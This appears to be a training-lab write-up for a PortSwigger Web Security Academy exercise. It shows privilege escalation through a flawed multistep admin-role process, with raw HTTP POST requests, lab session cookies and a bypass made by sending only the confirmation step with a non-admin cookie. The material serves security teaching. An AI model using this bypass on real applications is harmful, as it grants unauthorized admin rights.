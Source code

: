 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2b3b072d-aeaf-4368-bc25-5daadcd9f6ca)


## Solution :

> Mostly developers implement strong acces controls in the first step but fail to ensure it in the subsequent steps , so we can take advantage of that to perform privilege escalation.

#### Admin user -

First  can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`. 

Then we can play around with the requests by loggin in as wiener & exploiting the flaw in the multistep process.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e8440ea8-045e-4bc0-a922-053fb4fc4cc1)

Once logged in , we can go to admin panel & modify other user's privileges.

We need to upgrade wiener as admin by flawed multistep process, so lets now poke around with carlos.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5bdb0c20-cff4-400b-9744-b231cfa22bd2)

#### Step 1 in the process - 

```http
POST /admin-roles HTTP/2
Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos&action=upgrade
```

Here we upgreaded privileges of carlos.

After modifying the privileges, we get a page like this & where the request contains a additional parameter called **confirmned=true**,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4d9ae4ad-3442-41a0-be2f-9a636b1cee9d)

## Step 2 in the process -

```http
POST /admin-roles HTTP/2

Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

action=upgrade&confirmed=true&username=wiener
```

**This process of upgrading/downgrading a user's privileges has 2 steps that's why this is a multi step process.**

We here have the admin's cookie - `ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN` by which we can send the same request but with non admin cookie

Here note that we have a parameter called `confirmed=true/false` in the POST request  body which takes us to **/admin** .

#### Wiener user -

So now we can try logging in as  **wiener** using the credentials given & try to promote ourselves as administrator.

With thehelp of inspect element , we grab the cookie of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6fa7b866-ab2b-4058-96bc-c1144817a585)


Cookie of admin  - `ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN` 
Cookie of wiener - `DVWBhHWy8qAAnzPIfHLrhQmuEYDR4shV`


Let send the non admin request with the admin's session cookie.

If we try to upgrade ourself(wiener) by changing the cookie value of admin to non admin in the request of first step , we get `401 - UNAUTHORIZED`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/198cf809-3321-4308-885d-3793a6279362)

But , if we try the same process in the second step  *ie* - Confirming the action step, we get a `302 - Redirect' which means we bypassed the acces control measure & upgraded the privilege of ourselves.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/477fa30b-dc70-45a0-bb00-bfe6410bc936)

Thus we solved the lab ,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6fd3706a-8605-4a91-86cf-4834ebadb417)









